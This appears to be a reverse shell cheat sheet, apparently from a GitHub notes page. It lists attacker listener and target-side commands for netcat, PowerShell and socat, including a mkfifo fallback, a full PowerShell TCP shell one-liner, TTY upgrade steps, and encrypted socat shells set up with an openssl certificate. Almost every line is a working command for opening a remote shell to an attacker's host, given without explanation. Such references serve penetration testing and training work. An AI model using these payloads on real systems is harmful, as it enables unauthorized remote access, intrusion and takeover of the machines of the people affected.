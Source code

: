 ##### More payloads for reverse shell at
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```
## NetCat
#### Attacker
```
nc -lvnp <port>
```

#### Target 

Linux
``` 
nc <ip> <port> -e /bin/bash
```

Windows
```
nc <ip> <port> -e cmd.exe
```
### Interactive Shell

Linux
```1
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
```2
export TERM=xterm
```
```3
ctrl+Z
```
```4
stty raw -echo;fg
```

Windows
```
rlwrap nc -lvnp <port>
```
```
ctrl+z
```
```
stty raw;fg
```

### If -e is blocked

#### Attacker
```
nc -lvnp <port>
```
#### Target
Linux
```
mkfifo /tmp/f; nc <ip> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

### Windows(PowerShell)
#### Attacker
```
nc -lvnp <port>
```
#### Target
```
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('**<ip>**',**<port>**);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
## Socat

#### Attacker
```
socat tcp-l:<port> -
```

#### Target

Linux
```
socat tcp:<ip>:<port> EXEC:"bash -li"
```
Windows
```
socat tcp:<ip>:<port> EXEC:powershell.exe (or cmd.exe),pipes
```


### Interactive Shell(for Linux Target)

#### Attacker
```
socat tcp-l:<port> file:`tty`,raw,echo=0
```
#### Target

Linux
```
socat tcp:<ip>:<port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```


### Encrypted Shell
create certificate
```
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
```
```
cat shell.key shell.crt >shell.pem
```
#### Attacker
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
#### Target
Windows
```
socat OPENSSL:<IP>:<PORT>,verify=0 EXEC:powershell.exe
```


### Encrypted Interactive Reverse Shell(for Linux Target)
#### Attacker
```
socat OPENSSL-LISTEN:<port>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
```

#### Target
```
socat OPENSSL:<ip>:<port>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```